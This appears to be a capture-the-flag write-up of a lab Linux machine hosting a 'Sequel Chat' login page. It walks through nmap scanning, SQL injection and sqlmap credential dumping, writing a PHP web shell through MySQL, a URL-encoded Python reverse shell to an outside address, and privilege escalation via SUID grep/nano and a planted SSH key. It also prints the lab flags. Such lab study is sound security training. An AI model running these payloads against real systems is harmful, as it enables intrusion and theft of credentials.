 # Linux Machine



## Machine Info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 --open -oN port_scan.txt 10.200.150.152 -Pn

Nmap scan report for 10.200.150.152
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a2:16:fe:3b:39:da:6f:db:71:dd:57:e9:17:b4:20:22 (RSA)
|   256 a6:d9:49:e2:24:60:2c:45:64:02:eb:d9:a2:41:d0:94 (ECDSA)
|_  256 03:a7:4c:47:47:6b:68:89:6a:5f:73:ff:e4:38:df:b2 (ED25519)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
1200/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sequel Chat | Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Initial Access

### Sequel Chat Web Service

An attacker after did a simple Port scan with nmap can see that the target Linux machine has a web service expose on port 1200 called Sequel Chat.

This web service shows a Login page without a way to create a new user. Only who has the credentials can access to the portal.

### SQL Injection

An attacker can perform some attack technique to bypass this Login page. Once of them is the SQL injenction attack.

An attacker can use this payload on the email field to retrive a SQL error message

```
admin123' UNION SELECT 1, where database() like 's%';--    '
```

It means that there is a Bind Boolean based SQL injection to use to obtain DB's informations.

An attacker with this information can intercept the Login request with Burp suite and save it as a file, and use the SQLMap tool to retrive db's information using this flaw.

The follow command can able to an attacker to obtain all dbs presents.

```
sqlmap -r login.req --technique=B --dbs
```

This command can able to a attacker to obtain all information that the db contains after discovered the db name with previous command.

```
sqlmap -r login.req --technique=B -D sequel --dump
```

An attacker dumping the sequel db can obtain the admin's credentials

```
+----+------------------+---------------------+------------------------------------------+
| id | email            | created             | password                                 |
+----+------------------+---------------------+------------------------------------------+
| 1  | admin@sequel.thm | 2025-02-21 09:05:46 | zxQY7tN1iUz9EJ3l8zWezxQY7tN1iUz9EJ3l8zWe |
+----+------------------+---------------------+------------------------------------------+
```

These credentials allow an attacker to access to the website.





***

REading files with sqlmap file-read function



With this command an attacker can retrive mysql root password

{% code overflow="wrap" %}
```
sqlmap -r login.req --file-read=/var/www/html/includes/user_login.php

$db = mysqli_connect('localhost', 'root', 'x5dB97R2PgXkIJtOsrML','sequel') or die('Error Connecting to DB');\r
```
{% endcode %}

With this credentials an attacker obtain the access to the MySQL as a root.

An attacker, can also run a directory bruteforcing searching what directories are expose in the web site for use this credentials.

```
gobuster dir -u http://10.200.150.152:1200/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
```

With this command an attacker can discover the phpmyadmin panel exposes.

With the credentials found an attacker can loggin in the phpmyadmin portal as root.

The MySQL root user by default has the FILE permision to write a file in the machine, and he can try to write a shell.php file into /var/www/html/ directory to obtain a RCE with this query:

```
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' 
```

Now an attacker searching this link can execute arbitrary code into the machine as www-data user.

```
http://10.200.150.152:1200/shell.php?cmd=id
```



An attacker can execute a payload to establish a reverse shell.

Making this request an attacker can check if the python3 is installed on machine

```
http://10.200.150.152:1200/shell.php?cmd=which+python3
```

The python3 is present, with the follow payload an attacker can obtain a reverse shell using python command

{% code overflow="wrap" %}
```
http://10.200.150.152:1200/shell.php?cmd=export%20RHOST%3D%2210.250.1.6%22%3Bexport%20RPORT%3D8899%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fbash%22%29%27
```
{% endcode %}

Now an attacker is logged into the machine as www-data user.



### User Flag

```
cat /user.txt
THM{3e82146f-b010-4d74-a3b8-971de9966d2d}
```



## Privilege Escalation

An attacker with access to the target machine can enumerate the misconfiguration and find these:

### SUIDs&#x20;

runnning this command an attacker can obtain all SUID for the user www-data

```
find / -perm -u=s -type f 2>/dev/null
```

And for the www-data an attacker can exploit the `grep` and `nano` SUID to read whatever file he want. This is the command:

```
LFILE=/root/root.txt
grep '' $LFILE
```

With the nano SUID, the attacker can modify some more privileged file. Then some atempts an attacker can discover that the file `/home/ubuntu/.ssh/authorized_keys` is writable using nano.

At this point an attacker can add his own publick key and make access via SSH as `ubuntu` user.

Can generate his own pub and priv keys with this command on kali machine

```
ssh-keygen -t rsa -b 4096 -f ssh_key
```

Then add using this command the content of the ssh\_key.pub on the `/home/ubuntu/.ssh/authorized_keys` file with this command:

```
nano /home/ubuntu/.ssh/authorized_keys
ssh-rsa REDACTED user@attacker
```

And then an attacker can access via SSH as ubuntu running this command:

```
ssh -i ssh_key ubuntu@10.200.150.152
```



The user ubuntu has all sudo privilege, an attacker can check this out by runnning this command:

```
sudo -l
```

To became root an attacker can run this command:

```
sudo su
```

Now the attacker is logged as root and he has compromise the entire machine.



### Root flag

```
cat /root/root.txt
THM{850ced90-c8bf-4ba7-a364-13dd9026350e}
```
